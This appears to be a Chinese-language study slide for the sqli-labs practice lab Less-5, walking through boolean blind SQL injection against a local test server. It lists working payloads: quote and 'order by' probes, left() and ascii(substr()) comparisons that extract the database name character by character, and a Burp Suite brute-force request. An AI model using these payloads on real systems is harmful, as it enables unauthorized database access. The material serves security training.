

# Less-5 bool型-1
1. http://127.0.0.1/sqli/Less-5/?id=1’  查看是否有注入
2. http://127.0.0.1/sqli/Less-5/?id=1' order by 3--+ 查看有多少列
3. http://127.0.0.1/sqli/Less-5/?id=1‘ and left((select database()),1)=’s’--+ 判断第一位是否是s，然后使用bp进行爆破处理：
    GET /sqli/Less-5/?id=1%27%20and%20left((select%20database()),2)=%27s§a§%27--+ HTTP/1.1
通过返回的长度来确定第二位是多少，最后确定为e，依次类推进行测试。
4. 或者是使用if来进行判断测试： http://127.0.0.1/sqli/Less-5/?id=1‘ and  ascii(substr((select database()),1,1))>156--+（此时是没有返回的） （这种方法是错误的）
http://127.0.0.1/sqli/Less-5/?id=1‘ and  ascii(substr((select database()),1,1))>110--+  此时返回 you are in…….代表执行成功。